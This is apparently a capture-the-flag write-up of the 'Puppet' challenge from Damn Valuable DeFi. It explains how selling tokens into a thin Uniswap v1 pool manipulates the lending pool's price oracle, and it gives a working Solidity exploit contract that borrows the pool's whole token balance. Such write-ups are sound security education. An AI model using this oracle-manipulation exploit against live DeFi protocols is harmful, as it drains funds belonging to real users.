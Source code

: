 
## 8. Puppet
```
There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by saving all tokens from the lending pool, then depositing them into the designated recovery account. You start with 25 ETH and 1000 DVTs in balance.
```

First, we gotta talk about Uniswap. The general idea is that it's an exchange for ERC20 tokens; you can swap one token for another. However, its pricing is dynamically computed based on supply and demand. In this challenge, it's just swapping ETH for DVT, so nothing too crazy. The `PuppetPool` uses this exchange as a price oracle to determine how much you have to deposit in ETH to borrow DVT.

```solidity
    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
```

Interesting! If we could drain Uniswap's balance, we could take all of the DVT from `PuppetPool` for free. Let's see how the challenge set up our accounts.

```solidity
    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;

    uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;

    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;
```

Well, this is awkward. We have 100x more DVT and 2.5x more ETH than Uniswap. The exploit kinda just falls out from here:
1. Sell as much DVT to Uniswap as possible to drive down the price
2. Use our initial ETH and our newly acquired ETH to borrow everything from the pool

<br/>

✨ _We do a little market manipulation_ ✨

```solidity
contract Exploit {
    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;

    constructor() payable {}

    function win(DamnValuableToken token, PuppetPool lendingPool, IUniswapV1Exchange exchange, address recovery) public {
        // 1. Sell DVT to Uniswap until it runs out of ETH
        uint256 amount = token.balanceOf(address(this));
        token.approve(address(exchange), amount);
        exchange.tokenToEthTransferInput(amount, 1, block.timestamp, address(this));

        // 2. Borrow all DVT from PuppetPool (cost should be 0 or near it)
        lendingPool.borrow{value: address(this).balance}(POOL_INITIAL_TOKEN_BALANCE, recovery);
    }

    receive() external payable {}
}
```
